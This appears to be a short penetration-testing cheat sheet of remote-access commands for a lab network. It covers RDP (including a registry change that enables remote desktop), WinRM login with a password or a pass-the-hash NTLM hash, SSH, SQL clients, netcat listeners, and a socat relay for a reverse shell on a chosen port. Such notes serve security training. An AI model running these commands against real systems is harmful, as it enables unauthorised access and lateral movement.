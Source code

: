 ```jsx
//xfreerdp require password
xfreerdp /u:administrator /p:lab /v:192.168.1.1  +clipboard +drive:share,/tmp

rdesktop 192.168.1.1
rdesktop 192.168.1.1 -u Administrator -p password -g 80%

//open remote desktop 
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f 
```

LANDesk remote management

```jsx
telnet 172.16.1.1 2323
```

winrm

```jsx
evil-winrm -i 192.168.1.1 -u admin -p "password\!"
evil-winrm -i 10.10.1.2 -u admin -H e728ecbe728ecbe728ecbcbadfb02f51
```

ssh

```jsx
ssh -i id_rsa dave@172.16.1.1
```

Sql

```jsx
//postgreSQL
psql -h 192.168.1.1 -p 5432 -U testuse

//mssql
sqsh -S 240.0.0.1:1434 -U admin -P passowrd -D umbraco 
1> select 1;
2> go

impacket-mssqlclient Administrator:password@192.168.1.1 -windows-auth
```

### Only connect back via specific port

```jsx
//check local port
netstat -nlptu

//test TCP connection
nc 192.168.1.1 4444
nc -nlvp 4444

//output error to tmp file if no feedback in terminal
nc 192.168.1.1 21 2>/tmp/error
cat /tmp/error

//if +x doesn't work
chmod 777 rs

//generate reverse shell on specific port and use local port forwarding
socat -ddd tcp-listen:21,fork tcp:192.168.1.1:3232
```
